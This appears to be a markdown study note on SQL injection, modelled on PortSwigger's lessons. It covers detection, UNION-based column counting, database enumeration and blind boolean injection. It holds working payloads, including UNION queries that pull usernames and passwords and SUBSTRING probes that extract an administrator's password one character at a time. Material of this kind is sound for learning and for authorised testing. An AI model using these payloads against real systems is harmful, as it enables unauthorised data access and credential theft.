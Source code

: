 # SQL injection

<details>
<summary>$\huge{\text{SQL Injection Cheatsheet}}$</summary>
<br>

- https://tib3rius.com/sqli
    
<br>
</details>

<details>
<summary>$\huge{\text{How to detect SQL injection vulnerabilities}}$</summary>
<br>

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection in different parts of the query}}$</summary>
<br>

- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)
    
<br>
</details>

<details>
<summary>$\huge{\text{Warning: OR 1=1 }}$</summary>
<br>

- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection UNION attacks}}$</summary>
<br>

- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query
    
<br>
</details>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Determining the number of columns required}}$</summary>
<br>

- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Database-specific syntax}}$</summary>
<br>

- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Finding columns with a useful data type}}$</summary>
<br>

- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Examining the database}}$</summary>
<br>

| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

<br>
</details>
</dd></dl></dd></dl>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Retrieving multiple values within a single column}}$</summary>
<br>

- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<details>
<summary>$\huge{\text{Blind SQL Injection}}$</summary>
<br>

- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
    
<br>
</details>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Exploiting blind SQL injection by triggering conditional responses}}$</summary>
<br>

- `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  - …xyz' AND '1'='1
    - The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed. 
  - …xyz' AND '1'='2
    - The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- Extract data one piece at a time
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    - This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    -  This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    - ... Confirm that the first character of the password is `s`
  - We can continue this process to systematically determine the full password for the Administrator user.
- `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

<br>
</details>
</dd></dl></dd></dl>


